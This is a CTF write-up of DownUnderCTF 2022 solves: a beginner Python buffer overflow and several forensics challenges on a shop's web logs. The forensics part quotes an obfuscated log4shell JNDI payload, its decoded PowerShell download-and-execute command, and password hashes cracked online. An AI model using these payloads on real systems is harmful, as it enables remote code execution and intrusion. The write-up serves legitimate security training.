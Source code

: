 ```yaml
---
layout: post
title: DownUnderCTF 2022
---
```


- [https://ctftime.org/event/1625](https://ctftime.org/event/1625)
- Sep 23 to Sep 25
- Played with wackers
- Ranking: 392/1407 with 750 points

# My Solves/Writeups

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/babyp(y)wn | beginner | 50 | [jump](#pwnbabypywn) |

## Rev

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| rev/source-provided | beginner | 50 | [jump](#revsource-provided) |

## DFIR

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| dfir/Shop-Knock-Knock-Knock | easy | 50 | [jump](#dfirshop-knock-knock-knock) |
| dfir/Shop-Logging-for-what? | easy | 50 | [jump](#dfirshop-logging-for-what) |
| dfir/Shop-I'm-just-looking! | easy | 50 | [jump](#dfirshop-im-just-looking) |
| dfir/Shop-Oi!-Get-out-of-there! | medium | 50 | [jump](#dfirshop-oi-get-out-of-there) |

## Writeups
### pwn/babypywn

Python is memory safe, right?

Author: joseph#8210

Attachments: [babypywn.py](https://play.duc.tf/files/75063ab9b30ed274dd69906496ce0c15/babypywn.py?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjozN30.YzHRZQ.fB3_7LN6wR9a1LOd2JRyUidbaC4)

### Solution

Downloading the python file and looking at it, I recognized this as a simple buffer overflow challenge but written in python.

The program was using the ctypes python library which allowes it to act like c.

It creates a buffer size for the input to stay in.
```py
buf1 = c_buffer(512)
buf2 = c_buffer(512)
```

The program is looking for the string "DUCTF" in the buffer of buf2 which means if we can just overflow 512 bytes of buf1 and add a DUCTF after, it should print the flag.

The alternative I used was just spamming DUCTF using python: ```python2 -c "print 'DUCTF'*200" | nc 2022.ductf.dev 30021```

```Flag: DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}```

### rev/source-provided

In this reversing challenge, source is provided.

Author: joseph#8210

Attachments: [chall](https://play.duc.tf/files/77264a4412dde0c22c878269e1fc9c11/chall?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1N30.YzHR2Q.ocJkP7Re57zZU4nVaGuD10gK4ec)
[chall.S](https://play.duc.tf/files/2c136d630abb9d5d25109c2b6424cc5e/chall.S?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1OH0.YzHSag.bHrtRmikcYkKQA7n4ZRreyj3UT8)

### Solution



### dfir/shop-knock-knock-knock

Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```Although this had the most solves, it was the weidest/ hardest one for me.```

Looking at the file, we see that there are many different payloads sent to the web server that are of form jndi:smth// 

Searching up on google for jndi it returns results of the log4shell attack that happened last year

```The ip can also be found from looking at the password change attempts```

We know that these attacks are hacker attacks, so looking at the ip associated with the attack payload we can find the ISP of the attacker ip by running whois on the ip.

After several results of emails we get the answer

Flag: ```abuse@telstra.net```

### dfir/shop-logging-for-what

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

Author: Conletz#5420

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

Knowing from the previous challenge that the attacks were log4shell attacks in the form of jndi:smth, we are probably looking for a version of the payload that can bypass a filter.

Scrolling through the file, we come across a payload that is also in the useragent section but looks obfuscated to bypass the filter.

`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5le
GUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}`

The end of this payload looks like base64 so decrypt the base64

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');"```

This part felt kinda guessy to me but the answer for the script run was just the part after the link

```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### dfir/shop-im-just-looking

We've seen some vulnerability scanning activity against us!

What was the name of the tool used?

Flag format: Name of the tool used, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```This challenge felt even more guessy to me as I found the answer by trying to do the password challenge instead.```

Searching through the json file during the password challenge of this file, I was looking for some wordlist that I could maybe use to crack the hashes.

Grepping txt from the json file, I got the result of nuclei.txt.

I searched up nuclei.txt on google thinking I could download this wordlist and use it to crack the hashes but when I searched it up, I instead find a vulnerability scanner on github called nuclei. [nuclei](https://github.com/projectdiscovery/nuclei)

This challenge description was asking for a vulnerability scanner, so nuclei seemed fit and it ended up being the flag.

```Flag: nuclei```

### dfir/shop-oi-get-out-of-there

Someone was able to successfully break into the admin account!

Do you know what the old password was?

Flag format: The password, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

After searching through the files on the previous challenges, I realized that there were these weird links pointing to /changepassword and had base64 text after the ref query parameter.

Using grep to search for "ref" and grabbing all the base64 text and decoding the base64 returns some password-like text.

```
b506fb0cabb60e9f1132daa72df4d567:6d7c5b3e796d833b3fdd40f4ce57facd
2ac9cb7dc02b3c0083eb70898e549b63:6d7c5b3e796d833b3fdd40f4ce57facd
3dc919de186d1a8ee62fff92d80839f7:6d7c5b3e796d833b3fdd40f4ce57facd
7a581ac4d8cb3bfc596fce9afb115fd2:6d7c5b3e796d833b3fdd40f4ce57facd
```

At first I thought this was a LM:NTLM hash because of the ldap references in the json file but trying to crack using hashcat/ john didn't work.

After, I tried plugging the hashes into hashes.com (cracked website for cracking passwords), and it cracked all of the passwords.

```
2ac9cb7dc02b3c0083eb70898e549b63:Password1
3dc919de186d1a8ee62fff92d80839f7:ozzieozzieozzie
7a581ac4d8cb3bfc596fce9afb115fd2:downunder2
b506fb0cabb60e9f1132daa72df4d567:crackstation
```

Submitting each of the passwords, one of them worked.

```Flag: ozzieozzieozzie```

